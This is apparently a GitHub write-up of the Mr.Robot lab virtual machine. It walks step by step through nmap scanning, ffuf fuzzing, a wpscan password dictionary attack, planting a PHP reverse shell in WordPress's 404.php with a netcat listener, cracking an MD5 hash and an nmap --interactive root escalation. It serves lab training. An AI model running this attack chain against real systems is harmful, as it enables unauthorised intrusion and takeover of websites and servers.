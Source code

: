 # Mr.Robot-Walkthrough-FalseBeliefsYT
Walkthrough for Mr.Robot virtual machine


Starting the attack I had to identify the virtual machine IP addr. I did this by running rubicon which is a script I programmed. The nmap scrip that it runs is "nmap -sn 192.168.0.0/24". This scans the range of IP's in that range to list all IP's on my network. To recreate this on your own network run ifconfig and if it returns 192.168.1.XXX then use 192.168.1.0/24 as your range or adapt for your IP addr. As you can see the NMAP scan returned the information below and I determined that the target IP addr is 192.168.0.166

Script: nmap -sn 192.168.0.0/24

![image](https://github.com/user-attachments/assets/2f567524-3325-406a-8160-a38b03c63eb0)

After identifying the machine to attack I ran an nmap scan on the machine and seen it was running port 80, so I hopped on firefox and went to the IP addr

Script: nmap 192.168.0.166


![Screenshot from 2024-09-25 19-15-41](https://github.com/user-attachments/assets/babb5a6b-d851-46ac-9bfa-4d2fe35515da)

Once on the website I let it load

![Screenshot from 2024-09-25 19-15-51](https://github.com/user-attachments/assets/25d625f3-5497-4e4d-8f48-0e30e50b6241)

through a ffuf scan I seen there was a robots.txt file. Makes sense to check that the machine being name Mr.Robot, upon entering the webpage 192.168.0.166/robots.txt I seen 2 files. so I quickly used wget to downlaod them to my machine

Script: ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt:FUZZ -u http://192.168.0.166/FUZZ

Script: wget http://192.168.0.166/key-1-of-3.txt

![Screenshot from 2024-09-25 19-20-58](https://github.com/user-attachments/assets/43f0ccde-d435-470b-b11e-e7c95c19e856)

Script: wget http://192.168.0.166/fsocity.dic

![Screenshot from 2024-09-25 19-21-20](https://github.com/user-attachments/assets/1615f6b9-eb4b-4d6f-9a57-fadb9ca2d93c)

The fuff scan I ran also told me WordPress was running on the machine so I went to 192.168.0.166/wp-login

![Screenshot from 2024-09-25 19-18-26](https://github.com/user-attachments/assets/55610244-c20d-4f6e-bc7d-3112100e6c29)

while that was loading I decided to cat out the fsocity.dic and seen it had alot of repeated words. I ran a sort command for the unique words and outputted it to a file call sorted_fsocity.dic

Script: cat fsocity.dic | sort -u sorted_fsocity.dic

![Screenshot from 2024-09-25 19-21-48](https://github.com/user-attachments/assets/2fee498f-8953-4aae-bb65-973431778bd8)

I then ran a wpscan to enumerate information about the Wordpress website

Script: wpscan --url http://192.168.0.166/wp-login -u e

After that I found the user Elliot and ran a dictionary attack on the user elliot on the WordPress link and found the password ER28-0652

Script: wpscan --url http://192.168.0.166/wp-login -P sorted_fsocity.dic -U elliot

![image](https://github.com/user-attachments/assets/ad93a3bd-4968-4fc1-8024-dc00ab702a55)

After that I logged into the WordPress site and after some digging I found I could edit files as user elliot. I edited the 404.php file located in Appearance -> Editor on the WordPress site with the reverse-php-script from pentestmonkey (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and changed the IP address to match mine.

![Screenshot from 2024-09-25 19-25-59](https://github.com/user-attachments/assets/e0b4c368-5bc7-4631-aa7b-9f53a26e5502)

![Screenshot from 2024-09-25 19-25-21](https://github.com/user-attachments/assets/7cc156ad-cade-4d09-be02-b6d82d2f180b)

![Screenshot from 2024-09-25 19-26-15](https://github.com/user-attachments/assets/b910d9dd-1454-41b8-b181-11f63d2aa7ff)

After that I setup a netcat listener on port 1234 on my local machine and went to a page that didnt exist to activate the reverse shell

Script: nc -nlvp 1234

![Screenshot from 2024-09-25 19-27-43](https://github.com/user-attachments/assets/aef9af1f-d277-443b-a889-8a600cb8024b)

![Screenshot from 2024-09-25 19-28-20](https://github.com/user-attachments/assets/157a749a-9a86-488a-b0aa-9ff5c4c5ab97)

And we got our reverse shell!!

![Screenshot from 2024-09-26 19-16-25](https://github.com/user-attachments/assets/26f3b32f-a639-4a36-8f83-86998cf4c9b7)

I then spawned a bash shell with python

Script: python -c "import pty;pty.spawn('/bin/bash')"

![Screenshot from 2024-09-26 19-22-20](https://github.com/user-attachments/assets/20531b44-9293-4550-867e-30bfbcef487b)

I ran sudo -l to see what the user could run as root. daemon couldnt run anything as root!

Script: sudo -l

![Screenshot from 2024-09-26 19-23-09](https://github.com/user-attachments/assets/1b0b0117-d807-4256-b884-105f00e1c0f1)


I then checked the home directory to see what users were on the machine and found a user called robot

Script: ls /home/

![Screenshot from 2024-09-26 19-25-14](https://github.com/user-attachments/assets/eb437a6c-c438-48b0-963c-62b8f7cc41a8)


I then cd'ed into the users directory and listed out all the files. I found a password.raw-md5 file (pink) and a key-2-of-3.txt file (yellow) I attemped to cat out the key file to no avail and the MD5 hash for the robot users password was in the password.raw-md5 file.

![image](https://github.com/user-attachments/assets/4c12a6ae-134c-4a36-aa94-9f4f99a0cd86)

I used a website to decode the hash (hashes.com) and it gave me the password abcdefghijklmnopqrstuvwxyz

![Screenshot from 2024-09-26 19-27-01](https://github.com/user-attachments/assets/1ed903ef-2ff2-485b-a48b-f41cbed0beaa)

I then SU into robot

Script: su robot
Password: abcdefghijklmnopqrstuvwxyz

![Screenshot from 2024-09-26 19-29-54](https://github.com/user-attachments/assets/0b131049-684d-45ff-bf26-7379423eea44)

Now that I was the user robot I tried to cat out the key file and got the next key

![Screenshot from 2024-09-26 19-30-19](https://github.com/user-attachments/assets/4aa087bd-b138-4528-a4f9-d1da8b10c4ee)

After that I cd'ed into the usr/local/bin to see what custom scrips or scripts I could use where there and found nmap so I started an interactive mode nmap scan and ran !sh to spawn a root shell because nmap I seen nmap was running version 3.18 using nmap -V.

Script: cd /usr/local/bin
Script nmap -V
Script: nmap --interactive
Script !sh

![Screenshot from 2024-09-26 19-32-19](https://github.com/user-attachments/assets/61e22a49-c99f-43a1-aca9-c08856517a3e)

Finally I cd'ed to the root folder and cat'd out the last key file needed to complete this machine

Script: cat /root/key-3-of-3.txt

![Screenshot from 2024-09-26 19-32-56](https://github.com/user-attachments/assets/963aa2a4-335e-4466-b092-5c7ed02184e3)

NOTE:
I ran into an issue where the reverse shell wasn't working. Ensure there are no firewall settings blocking you machine from being connected to. To stop the standard kali linux firewall run "sudo systemsctl stop ufw" and run "sudo systemsctl start ufw" to start it back up when you're done. Cyber Saftey is super important.
